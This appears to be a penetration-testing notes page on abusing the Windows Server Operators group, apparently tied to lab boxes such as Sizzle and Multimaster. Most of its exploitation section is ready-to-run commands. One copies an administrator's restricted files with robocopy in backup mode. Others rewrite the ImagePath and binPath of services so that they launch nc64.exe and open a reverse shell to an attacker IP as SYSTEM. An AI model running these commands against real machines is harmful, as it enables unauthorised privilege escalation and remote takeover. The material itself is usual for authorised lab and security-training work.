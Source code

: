 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Server Operators

## Information

Server Operators is used for managing the server as a whole, including service configurations and files.

<table><thead><tr><th width="221" align="right">Privileges</th><th>Description</th></tr></thead><tbody><tr><td align="right"><a href="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td align="right"><a href="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

### Accessing Files

<pre class="language-powershell"><code class="lang-powershell"><strong># copy "restricted" data
</strong><strong>robocopy /b C:\users\administrator\desktop C:\programdata\temp
</strong></code></pre>

### ImagePath

Member of this group has the ability to manage services. By modifying the `ImagePath` of a service we can gain `SYSTEM` level access. An example of this process can be found [here](../../../../boxes/boxes/insane/multimaster.md#changing-paths).

{% code overflow="wrap" %}
```powershell
# change ImagePath
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\spool\drivers\color\nc64.exe -e powershell.exe 10.10.14.6 1337" /f
# confirm change
reg query "HKLM\System\CurrentControlSet\services\wuauserv"
# start service
Start-Service wuauserv
```
{% endcode %}

### binPath

Similar to [`ImagePath`](server-operators.md#imagepath), we can change the `binPath`.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># change binPath
</strong><strong>sc.exe config browser binPath= "C:\programdata\nc64.exe -e cmd.exe 10.10.14.19 443"
</strong><strong># stop the service
</strong>sc.exe stop browser
# start the service
sc.exe start browser
</code></pre>

## Resources

{% tabs %}
{% tab title="First Tab" %}
{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators" %}
{% endtab %}

{% tab title="Exploitation" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}
{% endtab %}
{% endtabs %}

## Boxes

{% tabs %}
{% tab title="Sizzle" %}
{% embed url="https://x7331.gitbook.io/boxes/boxes/boxes/insane/sizzle" %}
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}
